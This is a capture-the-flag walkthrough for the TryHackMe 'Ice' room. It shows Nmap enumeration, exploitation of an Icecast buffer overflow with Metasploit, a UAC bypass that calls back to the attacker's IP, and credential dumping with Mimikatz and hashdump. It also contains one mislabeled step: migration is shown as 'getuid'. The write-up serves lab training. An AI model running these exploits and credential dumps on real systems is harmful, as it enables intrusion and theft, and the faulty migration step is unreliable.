


# TryHackMe - Ice
Deploy & hack into a Windows machine, exploiting a very poorly secured media server.

In this walkthrough, we will cover the steps needed to complete the "Ice" challenge on Try Hack Me. The challenge will help you understand enumeration, exploiting outdated software, using Metasploit, and performing basic Windows exploitation.

### Task 1: 
Initiate the VPN Connection and Deploy the Machine
Connect to the Try Hack Me VPN using your configuration file:

    sudo openvpn <your_config_file>.ovpn
Deploy the target machine and wait for it to start.

### Task 2: Enumeration
Add the target machine’s IP address to your /etc/hosts file for easier access:
    echo 10.10.115.141 ice >> /etc/hosts

Perform a basic Nmap scan to discover open ports:

    nmap ice

Based on the initial scan, perform a more detailed scan on the discovered ports:

    nmap -p135,139,445,3389,5357,8000,49152,49153,49154,49158,49159,49160 -A -T4 ice

Analyze the scan results to identify interesting open ports and services. 
Key findings include:

Port 8000: Icecast service
Port 3389: Microsoft Remote Desktop (RDP)
Hostname: DARK-PC

### Task 3: Getting Access
Search for vulnerabilities in Icecast using CVE details:

Vulnerability: CVE-2004-1561 (Buffer Overflow in Icecast 2.0.1 and earlier)
Start Metasploit and search for the Icecast exploit:

    msfconsole
    search icecast
Select the Icecast exploit module:

    use exploit/windows/http/icecast_header
Set the required options and run the exploit:

    set RHOSTS ice
    run

Verify that you have gained a Meterpreter shell:

getuid

### Task 4: Escalate Privileges
Gather information about the target system:

    getuid
    sysinfo

Use Metasploit's local exploit suggester to find potential privilege escalation exploits:

    run post/multi/recon/local_exploit_suggester
Select the suggested exploit for bypassing UAC:

    use exploit/windows/local/bypassuac_eventvwr
    set SESSION 1
Set the LHOST option to your Try Hack Me VPN IP:

    set LHOST <your_IP>
    run
Verify the new privileges:

    getprivs

### Task 5: Looting
List the processes and find the spoolsv.exe process:

    ps
Migrate to the spoolsv.exe process:

    getuid
Load Mimikatz and retrieve all credentials:

    load kiwi
creds_all
Note down the password for the user "Dark":

Password: Password01!

### Task 6: Post-Exploitation
Explore Meterpreter's capabilities by using the help command:

    help
Dump all password hashes stored on the system:

    hashdump
View the remote user’s desktop:

    screenshare